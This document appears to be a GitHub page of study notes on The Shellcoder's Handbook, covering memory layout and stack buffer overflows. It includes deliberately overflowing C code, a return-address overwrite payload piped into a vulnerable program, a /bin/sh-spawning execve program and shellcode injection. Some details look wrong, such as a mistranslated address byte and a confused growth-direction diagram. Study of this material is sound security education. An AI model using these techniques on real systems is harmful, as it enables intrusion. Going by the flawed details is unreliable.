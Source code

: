 # The Shellcoder's Handbook
<img src="../covers/9780470080238.jpg" width="200"/>

## Chapter 1/27 Before You Begin <sup>(completed)</sup>

<details>
<summary>Specify the execution procedure of an executable?</summary>

> - The operating system creates an address space in which the program will run.
> - This address space indluces the actual program instructions as well as any required data.
> - Three segment types are created: `.text` (read-only), `.bss` (writable), `.data` (writable).
> - The `.bss` and `.data` segments are reserved for global variables.
> - The `.data` segment contains static initialized data, and `.bss` segment contains uninitialized data, `.text` segment holds the program instructions.
> - Stack and heap are initialized.
>
> ```sh
> readelf --symbols a.out | sort -k 2 -r
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 1
> ---
> **References**
> - https://linux-mm.org
> ---
</details>

<details>
<summary>Which direction each of the sections grow in binary files?</summary>

> ```sh
> ↑ Lower addresses (0x08000000)
>
> Shared libraries
> .text
> .bss
> Heap (grows ↓)
> Stack (grows ↑)
> env pointer
> Argc
>
> ↓ Higher addresses (0xbfffffff)
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 1
> ---
> **References**
> ---
</details>

<details>
<summary>Specify register groups in assembly language?</summary>

> - General purpose registers: `rbp`, `rsp`, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi`, `r8`, `r9`,...
> - Segment registers: `cs`, `ds`, `ss`
> - Control registers: `rip`
> - Other registers: `rflags`
>
> ---
> **Resources**
> - The Shellcoder's Handbook: Chapter 1
> ---
> **References**
> ---
</details>

## Chapter 2/27 Stack Overflows <sup>(writing)</sup>

<details>
<summary>When buffers become vulnerable to stack overflows?</summary>

> C has no bounds-checking on buffers.
>
> ```c
> #include <stdio.h>
>
> int main()
> {
>     int array[5] = {1,2,3,4,5};
>     printf("%d\n", array[5]);
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
> ---
> **References**
> ---
</details>

<details>
<summary>Write past the array bounds in C?</summary>

> ```c
> int main()
> {
>     int array[5], index;
>     for (index = 0; index != 255; ++index)
>     {
>         array[index] = 10;
>     }
> }
> ``````
>
> Inspect the core dump for further understanding of what heppened on the
> stack:
>
> ```sh
> coredumpctl list a.out
> ``````
>
> As shown by the core, machine was trying to execute address
> `0x0000000a0000000a` which is the value we filled by overwriting on the
> stack.
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

<details>
<summary>What values does the calling convention put on the stack?</summary>

> When a function has completed executing its instructions, it returns control
> to the original function caller.
>
> ```c
> void function(int a, int b)
> {
>     int array[5];
> }
>
> main()
> {
>     function(1, 2);
> }
> ``````
>
> The consecutive execution of the program now needs to be interrupted, and the
> instructions in `function` need to be executed. The first step is to push the
> arguments for function, `a` and `b`, backward onto the stack. When the
> arguments are placed onto the stack, the `function` is called, placing the
> return address, or `RET`, onto the stack. `RET` is the address stored in the
> instruction pointer (`EIP`) at the time function is called.
>
> Before any function instructions can be executed, the prolog is executed. In
> essence, the prolog stores some values onto the stack so that the function
> can execute cleanly. The current value of `EBP` is pushed onto the stack,
> because the value of `EBP` must be changed in order to reference values on
> the stack. When the function has completed, we will need this stored value of
> `EBP` in order to calculate address locations in main. Once `EBP` is stored
> on the stack, we are free to copy the current stack pointer (`ESP`) into
> `EBP`. Now we can easily reference addresses local to the stack.
>
> ||Low Memory Addresses and Top of the Stack|
> |---|---|
> |Array||
> |EBP||
> |RET||
> |A||
> |B||
> ||High Memory Addresses and Bottom of the Stack|
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

<details>
<summary>What happens when data is writen past the array boundaries on the stack?</summary>

> When examining the stack, we’re expecting to see the saved `EBP` and the
> saved return address (`RET`). But after writing past the array, both `EBP`
> and `RET` values will be overwritten by the value we put past the array.
>
> ```c
> void function(void)
> {
>     //                  top of stack, low memory
>     // 1   x 8 bytes    [index] 0x7fffffffe368
>     // 30  x 8 bytes    [array] 0x7fffffffe360
>     // rbp x 8 bytes            0x7fffffffe460
>     // ret x 8 bytes
>     //                  bottom of stack, high memory
>
>     long array[30];
>
>     unsigned long index = 0;
>
>     while (index != 33)
>     {
>         array[index] = 'C'; // value 0x43
>         ++index;
>     }
> }
>
> main()
> {
>     function();
> }
> ``````
>
> We have now successfully overflowed a buffer, overwritten `EBP` and `RET`,
> and therefore caused our overflowed value to be loaded into `EIP` after the
> execution reaches to the end of the function.
>
> While this overflow can be useful in creating a denial of service, we can
> move on to controlling the path of execution, or basically, controlling what
> gets loaded into `EIP`, the instruction pointer.
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

<details>
<summary>Control the execution path of a program vulnerable to buffer overflow?</summary>

> When `RET` is read off the stack and placed into `EIP`, the instruction at
> the address will be executed. This is how we will control execution.
>
> First, we need to decide what address to use. We need to determine the
> address to jump to, so we will have to go back to gdb and find out what
> address calls `function`.
>
> We then translate the address into shellcode and use `printf` to inject it
> into the vulnerable program.
>
> ```sh
> printf 'AAAAAAAAAABBBBBBBBBBCCCCCCCCCC\xed\x83\x04\x08' | ./overflow
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

<details>
<summary>Translate a hexadecimal address into shellcode?</summary>

> Assuming the address we want to use is `0x080483ed`.
>
> We should separate each byte from end to the beginning separated by `\x`
> resulting in `\xed\x83\x04\x3d`.
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

<details>
<summary>Get shell access by exploiting a program vulnerable to buffer overflow?</summary>

> We will have to inject actual machine instructions, or opcodes, into the
> vulnerable input area. To do so, we must convert our shell-spawning code to
> assembly, and then extract the opcodes from our human-readable assembly. We
> will then have what is termed shellcode, or the opcodes that can be injected
> into a vulnerable input area and executed.
>
> ```c
> #include <stdlib.h>
> #include <unistd.h>
>
> int main(void)
> {
>     char* name[2];
>
>     name[0] = "/bin/sh";
>     name[1] = 0x0;
>     execve(name[0], name, 0x0);
>     exit(0);
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
> ---
> **References**
> ---
</details>

<details>
<summary>Inject an already prepared shellcode into a process?</summary>

> ```c
> char* shellcode = "\xff\xff\xfe\xf4\xe8\xff\x31\x48\x08\xec\x83\x48";
> // shellcode for exit(0)
>
> int main(void)
> {
>     int *ret; // empty pointer sitting on stack after (caller address)
>
>     ret = (int *)&ret + 6;
>     // \          \____________ address of ret + 6 becomes the address of (caller) on stack
>     //  \______________________ put address of (caller) on ret to have access
>
>     (*ret) = (int)shellcode; // replace address of (caller) with address of shellcode
>     // executes shellcode
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2
>
> ---
> **References**
> ---
</details>

## Chapter 3/27 Shellcode
## Chapter 4/27 Introduction to Format String Bugs
## Chapter 5/27 Introduction to Heap Overflows
## Chapter 6/27 The Wild World of Windows
## Chapter 7/27 Windows Shellcode
## Chapter 8/27 Windows Overflows
## Chapter 9/27 Overcoming Filters
## Chapter 10/27 Introduction to Solaris Exploitation
## Chapter 11/27 Advanced Solaris Exploitation
## Chapter 12/27 OS X Shellcode
## Chapter 13/27 Cisco IOS Exploitation
## Chapter 14/27 Protection Mechanisms
## Chapter 15/27 Establishing a Working Environment
## Chapter 16/27 Fault Injection
## Chapter 17/27 The Art of Fuzzing
## Chapter 18/27 Source Code Auditing: Finding Vulnerabilities in C-Based Language
## Chapter 19/27 Instrumented Investigation: A Manual Approach
## Chapter 20/27 Tracing for Vulnerabilities
## Chapter 21/27 Binary Auditing: Hacking Cloud Source Software
## Chapter 22/27 Alternative Payload Strategies
## Chapter 23/27 Writing Exploits that Work in the Wild
## Chapter 24/27 Attacking Database Software
## Chapter 25/27 Unix Kernel Overflows
## Chapter 26/27 Exploiting Unix Kernel Vulnerabilities
## Chapter 27/27 Hacking the Windows Kernel
